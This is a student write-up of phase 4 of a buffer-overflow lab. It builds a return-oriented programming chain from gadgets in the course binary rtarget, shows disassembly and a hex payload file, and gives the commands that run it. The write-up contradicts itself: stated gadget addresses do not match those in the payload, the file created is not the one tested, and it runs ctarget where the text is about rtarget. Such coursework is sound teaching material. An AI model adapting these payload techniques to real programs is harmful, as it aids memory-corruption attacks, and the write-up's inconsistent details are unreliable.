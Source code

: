 <h3 id = "phase4">Phase 4</h3>
This phase is the same as phase 2 except using different method to call touch2 and pass the cookie. 

All the gadgets we need should be found in the region of the code for rtarget demarcated by the
functions start_farm and mid_farm. Only two gadgets can be used to do the attack. 

First we need to find bytes to pass the cookie to %rdi. Because `5f` which represent `popq %rdi` cannot be found between start_farm and end_farm in the dump file, we use `popq %rax` for a substitute and pass it to %rdi after that. So our code can be

```
popq     %rax
ret                  
mov      %rax,%rdi
ret
```

In the disassembled code of `rtatget` we can find `58 (90) c3` at 0x1b23 which represent `popq %rax` and `ret` as gadget 1

> The code in the () can be ignored because it represents `nop` and has no influence on the rest codes.
>
> When running the program in my computer the address will become 0x0000555555555b23 .

```
0000000000001b0f <setval_119>:      /* when running the program the address will be 0x0000555555555b0f */
    1b0f:	c7 07 2e c6 58 90    	movl   $0x9058c62e,(%rdi)
    1b15:	c3                   	retq   
```

and `48 89 c7 c3` at 0x1b2c which represent `mov %rax,%rdi` and `ret`  as gadget 2

> The transition of address is similar to notes above

```
0000000000001b29 <addval_186>:
    1b29:	8d 87 e3 48 89 c7    	lea    -0x3876b71d(%rdi),%eax
    1b2f:	c3                   	retq 
```

Now we can use these 2 gabgets to create our file `atk5.txt`

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00            /* padding */
13 5b 55 55 55 55 00 00            /* gadget 1 address */
4e d7 5b 5f 00 00 00 00            /* cookie popped into %rax */
24 5b 55 55 55 55 00 00            /* gadget 2 address */
93 59 55 55 55 55 00 00            /* touch2 address */
```

Let's check our solution

```
./hex2raw < atk4.txt > atk4r.txt

./ctarget < atk4r.txt             # use I/O redirection

gdb ctarget                       # within GDB
(gdb) run < atk4r.txt
```
